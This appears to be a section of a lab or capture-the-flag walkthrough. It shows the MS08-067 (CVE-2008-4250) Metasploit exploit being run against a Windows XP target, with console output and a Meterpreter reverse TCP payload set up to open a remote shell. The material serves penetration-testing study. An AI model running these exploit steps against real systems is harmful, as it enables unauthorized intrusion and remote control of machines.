 ## Automatic Exploitation

We know the ``` CVE ID ``` search it on metasploit  and set Lhost, Rhost , target 

``` bash
[msf](Jobs:0 Agents:0) >> search 2008-4250

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/ms08_067_netapi

[msf](Jobs:0 Agents:0) >> use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> check

[-] Msf::OptionValidateError The following options failed to validate: RHOSTS
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> set rhosts 10.129.227.181
rhosts => 10.129.227.181
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> check
[+] 10.129.227.181:445 - The target is vulnerable.
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> exploit

[*] Started reverse TCP handler on 192.168.132.128:4444 
[*] 10.129.227.181:445 - Automatically detecting the target...
[*] 10.129.227.181:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.129.227.181:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.129.227.181:445 - Attempting to trigger the vulnerability...
[*] Exploit completed, but no session was created.
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   10.129.227.181   yes       The target host(s), see https://github.com/rapid7/metasploit-fr
                                       amework/wiki/Using-Metasploit
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.132.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting

```